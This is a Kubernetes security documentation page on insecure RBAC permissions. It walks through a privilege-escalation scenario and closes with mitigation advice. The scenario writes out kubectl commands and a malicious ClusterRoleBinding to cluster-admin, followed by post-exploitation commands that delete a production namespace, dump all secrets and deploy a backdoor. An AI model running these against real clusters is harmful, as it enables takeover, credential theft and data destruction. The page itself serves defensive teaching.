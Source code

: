 ```yaml
---
sidebar_position: 8
title: "Insecure RBAC Permissions"
description: "Understanding how overly permissive RBAC configurations can lead to unauthorized access and privilege escalation in Kubernetes."
---
```


# Insecure RBAC Permissions

**Role-Based Access Control (RBAC)** is a core security mechanism in Kubernetes, defining which users or service accounts can perform which actions on which resources. When RBAC policies are overly permissive or misconfigured, they can become a critical attack vector for unauthorized access and full cluster compromise.

---

## Exploitation Scenario: Privilege Escalation via Misconfigured RBAC

An attacker leverages weak RBAC configurations to escalate privileges and gain full control over the Kubernetes cluster.

---

### Step 1: Enumerate Existing RBAC Roles and Bindings

Using any account that has permission to list RBAC objects, the attacker inspects roles and bindings:

```bash
kubectl get roles,rolebindings,clusterroles,clusterrolebindings -A
```

They look for signs of:

- Bindings to `cluster-admin`
- Use of wildcards (`'*'`) for verbs or resources
- Broad permissions granted to non-admin users

---

### Step 2: Impersonate a More Privileged User

If the user has `impersonate` privileges or is bound to a wildcard rule, they test their effective access:

```bash
kubectl auth can-i '*' '*' --as=admin
```

If the output is:

```
no
```

They cannot yet impersonate the `admin` user. But they may still be able to create bindings if RBAC is lax.

---

### Step 3: Create a Malicious ClusterRoleBinding

If the current user can bind a `ClusterRole`, the attacker creates a new binding that escalates privileges.

**Malicious binding:**

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: pwned-cluster-admin
subjects:
- kind: User
  name: admin
  apiGroup: rbac.authorization.k8s.io
roleRef:
  kind: ClusterRole
  name: cluster-admin
  apiGroup: rbac.authorization.k8s.io
```

Apply it:

```bash
kubectl apply -f pwned-cluster-admin.yaml
```

---

### Step 4: Verify Escalated Access

Now that the `admin` user is bound to `cluster-admin`, test again:

```bash
kubectl auth can-i '*' '*' --as=admin
```

Expected output:

```
yes
```

This confirms that the attacker (or anyone impersonating `admin`) now has unrestricted access across the cluster.

---

### Step 5: Perform Arbitrary Cluster Actions

With full `cluster-admin` access, the attacker can now do the following:

```bash
kubectl exec -it <pod-name> -- /bin/sh
kubectl delete namespace production
kubectl get secrets -A
kubectl create deployment backdoor --image=alpine -- /bin/sh -c 'sleep infinity'
```

They can even install or modify CRDs, escalate service accounts, or tamper with kube-system components.

---

## Result

The attacker gains **full administrative access** over the Kubernetes cluster. This enables:

- Arbitrary command execution
- Data exfiltration
- Persistent backdoors
- Deletion of workloads or namespaces

---

## Mitigation Steps

To prevent abuse of RBAC:

- Apply the **principle of least privilege**
- Avoid using `'*'` in `verbs` and `resources`
- Scope `Roles` to namespaces instead of using `ClusterRoles` when possible
- Regularly audit RBAC policies and bindings
- Prevent creation of new `ClusterRoleBindings` without approval
- Block wildcard impersonation rights

For more comprehensive mitigation techniques, refer to:

➡ **[Securing RBAC Permissions](/docs/best_practices/cluster_setup_and_hardening/insecure_rbac_permissions_mitigation)**
